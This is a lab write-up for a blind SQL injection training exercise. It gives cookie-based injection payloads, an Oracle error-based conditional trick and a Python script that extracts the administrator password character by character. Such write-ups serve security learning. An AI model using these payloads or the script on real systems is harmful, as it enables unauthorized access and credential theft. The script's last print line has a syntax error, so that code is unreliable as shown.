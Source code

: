 # Lab: Blind SQL injection with conditional errors
> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.
>

## Step 1 : Check vul in cookie header 
`Cookie: TrackingId=yp56RjgdYZOCDcLU; session=1eiC0v7TXw3mZrOBBHCwKwwcKHZEI8Yr`

```sql
1' or 1=1-- -
```
## Step 2 : Check length
```sql
123' union select CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and length(password)=20-- -
```
=> After checking , we discovered that the database is Oracle
=> Conditional in Oracle => `CASE WHEN (CONDITION) THEN TO_CHAR(1/0) ELSE '' END FROM table_name`
TO_CHAR(1/0) is a divide-by-zero error => 500

## Step 3 : Code bypass
```py
import requests
import string

url='https://acaa1fa41e0d3e4cc05d039200b7009c.web-security-academy.net/'
chars = string.printable[:-6]
#print(chars)
admin_pass=''
i=1
s=requests.Session()
s.get(url)

while True:
	for c in chars:
		payload = f"1' union select CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,{i},1)='{c}'-- -"
		cookie1={"TrackingId":payload}
		r = requests.get(url,cookies=cookie1)
		print(c)
		if r.status_code == 500:
			print('okeeeeeeeeeee')
			admin_pass+=c 
			i+=1
			print(admin_pass)
			break
		if(i==21):
			print('password administrator :' admin_pass)
			exit()
```
